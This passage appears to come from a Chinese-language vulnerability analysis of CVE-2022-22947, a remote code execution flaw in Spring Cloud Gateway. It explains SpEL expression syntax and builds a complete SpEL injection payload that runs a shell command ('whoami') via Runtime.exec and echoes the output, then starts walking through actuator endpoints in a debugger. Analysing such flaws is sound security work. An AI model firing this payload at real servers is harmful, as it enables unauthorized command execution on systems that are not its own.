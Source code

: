 - `SpEL` 表达式约定放置在 `#{xxx}` 中的
- `SpEL` 表达式支持类型的使用，使用方法就是 `T(类的完整路径)`，如： `T(java.lang.Math).PI` 就可以引用 `PI` 的值

### payload 的成因

1. 构造 `Java` 代码

   - 最终要执行的命令

     ```java
     Process exec = Runtime.getRuntime().exec(new String[]{"whoami"});
     ```

   - 获取执行的结果流

     ```java
     InputStream stream = exec.getInputStream();
     ```

   - 使用 `StreamUtiles` 工具类将结果流转换成字节数组，再使用 `new String` 转换成字符串形式回显

     ```java
     String s = new String(StreamUtils.copyToByteArray(stream));
     ```

2. 整理 `Java` 代码，结合上面写到的 `SpEL` 表达式的使用方法，构造成 `SpEL` 表达式，形成最终 `payload`

   ```java
   #{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}
   ```

### payload 的解析与执行

1. `debug` 模式启动 `Spring Cloud Gateway` 服务端，打开 `debug` 选项卡，选中 `Autuator` 标签，点选左侧 `Show Library Mapping` （一个柱状图图标），然后再选中上方 `Mappings`， 可以看到服务端暴露的接口列表，包含刚用到的 `/actuator/gateway/routes/{id}`、 `/actuator/gateway/refresh` 等，右侧是与之对应的类和方法名。

   ![](./images/CVE-2022-22947-Spring_Cloud_Gateway_RCE/payload%E8%A7%A3%E6%9E%90_01.png)
